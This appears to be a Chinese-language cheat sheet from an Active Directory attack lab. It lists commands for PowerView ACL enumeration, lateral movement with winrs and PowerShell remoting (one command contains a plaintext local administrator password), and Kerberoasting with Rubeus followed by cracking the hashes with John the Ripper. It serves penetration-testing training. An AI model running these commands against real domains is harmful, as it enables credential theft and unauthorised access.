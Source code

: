 # Find-InterestingDomainAcl(pv)

用户
```
Find-InterestingDomainAcl -ResolveGUIDs |?{$_.IdentityReferenceName -match "studentuser138"}
```

组
```
Find-InterestingDomainAcl -ResolveGUIDs |?{$_.IdentityReferenceName -match 'managers'}
```

域
```
Find-InterestingDomainAcl -ResolveGUIDs -Domain dbvendor.local
```

# 枚举对某个用户组的ACL(pv)

```
 Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
```


# 横向

使用winrs命令横向
```
PS C:\ad\Tools> winrs -r:us-mgmt cmd
```

指定密码(```.\administrator```是本地管理员)
```
winrs -r:us-mailmgmt -u:.\administrator -p:/c}Jgsb!4t33.2 cmd
```

用powershell直接横向
```
PS C:\ad\Tools>$usmgmt = New-PSSession us-mgmt
PS C:\ad\Tools> Enter-PSSession $usmgmt
```

# kerberoast
请求
```
Rubeus.exe kerberoast /user:appsvc /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```

破解
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

# 设置SPN
